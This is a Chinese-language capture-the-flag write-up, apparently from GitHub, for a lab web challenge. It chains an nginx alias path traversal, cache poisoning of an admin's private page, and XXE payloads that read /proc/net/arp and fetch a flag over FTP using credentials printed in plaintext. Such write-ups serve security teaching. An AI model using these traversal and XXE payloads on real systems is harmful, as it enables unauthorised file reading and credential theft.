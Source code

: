 # nginx的秘密wp

此题目出的挺好的，故收藏在这里，主要创新点在于利用：

> nginx的静态缓存 + nginx的配置问题造成的任意读取来做页面的信息泄露

感觉这个题目如果可以再跟xss相结合，就更加的完美了。

## 第一步，web缓存漏洞

完成一步需四个点结合。

#### 第一点：

观察到`static`有存在目录穿越漏洞，虽然没开`autoindex`但依然可以通过`/static../etc/passwd`下载文件。结合提示从nginx的配置开始，可以想到下载`nginx.conf`，下载的路径是默认的nginx安装路径`/static../etc/nginx/nginx.conf`。可以看到nginx配置，diff一下可以看到关键点在

```
proxy_cache_path /tmp/mycache levels=1:2 keys_zone=my_cache:10m max_size=10g inactive=30s use_temp_path=off;
	
	limit_conn_zone $binary_remote_addr zone=conn:10m;
	limit_req_zone  $binary_remote_addr zone=allips:10m rate=2r/s;

	
	server {
	    listen 4455 default_server;
	    server_name localhost;

	    location /static {
	        alias /home/;
	    }

	    location ~* \.(css|js|gif|png){
	        proxy_cache             my_cache;
	        proxy_cache_valid       200 30s;
	        proxy_pass              http://bugweb.app:8000;
	        proxy_set_header        Host $host:$server_port;
	        proxy_ignore_headers    Expires Cache-Control Set-Cookie;
	    }

	    location / {
	        limit_conn conn 20;
	        proxy_pass       http://bugweb.app:8000;
	        proxy_set_header Host $host:$server_port;
	    }
	}
```

#### 第二点

通过一些方法发现路由映射和些小问题。例如在扫描目录的时候可以发现目录匹配的范围有点宽泛。

登陆后访问发现，这些路由都是访问的`edit`页面，随便测`editxxx`发现也映射到相同的页面。猜测后台路由的逻辑是只要访问的是以`edit`开头都相当于访问`edit`。

#### 第三点：

继续看一下nginx的配置:

```
proxy_cache_path /tmp/mycache levels=1:2 keys_zone=my_cache:10m max_size=10g inactive=30s use_temp_path=off;
location ~* \.(css|js|gif|png){
	        proxy_cache             my_cache;
	        proxy_cache_valid       200 30s;
	        proxy_pass              http://bugweb.app:8000;
	        proxy_set_header        Host $host:$server_port;
	        proxy_ignore_headers    Expires Cache-Control Set-Cookie;
	}
```
发现路径只要匹配到 .js/.css/.png/.gif就会进行换缓存,并且根据nginx的配置说明[https://www.nginx.com/blog/nginx-caching-guide/](https://www.nginx.com/blog/nginx-caching-guide/)，缓存路径下面这样求的：

先计算：
```
md5($scheme$proxy_host$request_uri)
```
然后取最后一位当做第一个路路径，倒数第二三位当第二个路路径，然后把整个md5作为文件名。

比如访问：
```
http://ip:4455/write_plan/test.js/
```
计算步骤如下：

```
✗ echo -n 'http://bugweb.app:8000/write_plan/test.js/' | md5
ca223d413bd52623bffcde273271176e
```
最后缓存的路径是：

```
/tmp/mycache/e/76/ca223d413bd52623bffcde273271176e
```	
通过上面说对的任意文件读取，就可以读取这个缓存文件

```
http://ip:4455/static../tmp/mycache/e/76/ca223d413bd52623bffcde273271176e
```

#### 第四点：

有一个`post_bug`，这个点的功能是给提交bug给管理员，管理员会点击查看。有一个`write_plan`可以写一些东西，其他人看不见。如果你访问过`/user/admin`还会发现一个小tip管理员说自己已经把所有密码写在秘密计划里面了。

这些个点结合起来可以触发web缓存漏洞。通过`post_bug`的功能，给管理员发送url`http://xxxxx/write_plan/test.js`,然后管理员就会访问这个链接，导致管理员的`write_plan`页面被缓存下来

![postbug](postbug.png)

然后利用之前的任意文件读取获取缓存，就看到的东西如下

![plan](plan.PNG)

拿到内网ftp服务器的账号密码。`syc10ver Eec5TN9fruOOTp2G`。


## 第二步，xxe的两个协议

如果有师傅把第一步做出来了，相信下面的操作也很简单了。虽然题目提示给的是从nginx开始，但是我总是感觉很多师傅第一个找到的漏洞点是xxe。触发点在上传计划那里，xml文件中的外部实体可以被解析。

之所以要多出一步，是我觉得有两个tip还是有些师傅没（强）有（行）关（增）注（加）到（难度）。

1. url的完整的形式是`scheme:[//[user[:password]@]host[:port]][/path][?query][#fragment]`
2. `proc`伪文件中有arp信息


我这里用的解析xml的python库加载外部实体的时候用的是urlopen，如果没记错的话只支持`ftp`，`http`，`file`。上传

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE person [<!ENTITY remote SYSTEM
"file:///proc/net/arp">]>
<plans>
	<plan>
		<content>payload &remote;</content>
	</plan>
</plans>
```

![proc](proc.PNG)

读目录，把两个ip都试试

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE person [<!ENTITY remote SYSTEM
"ftp://syc10ver:Eec5TN9fruOOTp2G@172.18.0.2/">]>
<plans>
	<plan>
		<content>payload &remote;</content>
	</plan>
</plans>
```

 ![dir](dir.PNG)

读flag

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE person [<!ENTITY remote SYSTEM
"ftp://syc10ver:Eec5TN9fruOOTp2G@172.18.0.2/flag327a6c4304ad5938eaf0efb6cc3e53dc">]>
<plans>
	<plan>
		<content>payload &remote;</content>
	</plan>
</plans>
```

最后get flag

 ![flag](flag.PNG)